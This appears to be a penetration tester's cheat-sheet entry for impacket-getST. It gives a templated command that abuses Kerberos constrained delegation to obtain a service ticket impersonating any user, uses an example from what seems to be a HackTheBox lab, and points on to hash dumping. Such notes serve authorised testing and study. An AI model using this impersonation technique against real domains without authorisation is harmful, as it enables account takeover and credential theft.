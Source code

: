 # impacket-getST.py

> Retrieve Kerberos service tickets from a KDC.

---

## Abuse a Constrained Delegation Privilege to Generate a Service Ticket for Any User to a Host for which a SPN is Configured from Linux

```bash
impacket-getST $DOMAIN/$USER[:$PASSWORD] -dc-ip $DC_HOSTNAME_OR_IP -spn $SPN -impersonate $USERNAME_TO_IMPERSONATE [-hashes [$LMHASH]:[$NTHASH]]
```

- `$DOMAIN/$USER` is the domain and username of the principal who has the constrained delegation privilege on `$SPN`
- `$PASSWORD` or `$LMHASH` or `$NTHASH` is the credential of the principal who has the constrained delegation privilege on `$SPN`
- `$SPN` format: `$SERVICE/$COMPUTER`
	- Example: `WWW/dc.intelligence.htb`

If the ticket is successfully generated, it will be written to a file in the current directory named `$USERNAME_TO_IMPERSONATE.ccache`. It will grant access to the `$SPN`'s `$COMPUTER` as the user `$USERNAME_TO_IMPERSONATE`.

[[using-kerberos-tickets#Importing a Kerberos Ticket into impacket|Import the ticket into impacket]] and [[using-kerberos-tickets#Using Kerberos Tickets in impacket Tools|use it]] ([[dumping-hashes|dump hashes]], perhaps?).